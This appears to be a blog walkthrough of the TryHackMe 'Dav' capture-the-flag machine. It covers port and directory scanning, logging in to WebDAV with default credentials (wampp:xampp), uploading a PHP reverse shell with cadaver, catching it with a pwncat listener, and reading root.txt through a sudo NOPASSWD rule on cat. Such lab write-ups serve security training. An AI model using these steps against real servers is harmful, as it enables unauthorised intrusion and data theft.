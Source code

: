 ```yaml
---
layout: post
title: Walkthrough - Dav
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy

[bsidesgtdav](https://tryhackme.com/room/bsidesgtdav)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

- `gobuster dir -u http://10.10.59.127/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,html,php`

Running gobuster finds us a `/webdav` directory. It's a protected folder however. WebDAV is a protocol that provides a framework for users to manipulate documents on a server, such as creating or moving or changing them. 

Find default credentials through google wampp:xampp

Loggin in we get the contents of the directory.

We can use `cadaver` on kali to upload a shell

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/bsidesgtdav]
└─$ cadaver http://10.10.112.23/webdav/ 
Authentication required for webdav on server `10.10.112.23':
Username: wampp
Password: 
dav:/webdav/> put ~/scripts/php-reverse-shell.php
Uploading ~/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php': Could not open file: No such file or directory
dav:/webdav/> put /home/oskar/scripts/php-reverse-shell.php
Uploading /home/oskar/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 2585 bytes succeeded.
```

- setup pwncat listener and recieve shell `pwncat-cs -lp 6666`

* * * 

## What is the content of user.txt?

![](/assets/bsidesgtdav01.png)

* * * 

## What is the content of root.txt?

```
(remote) www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
(remote) www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```

* * * 

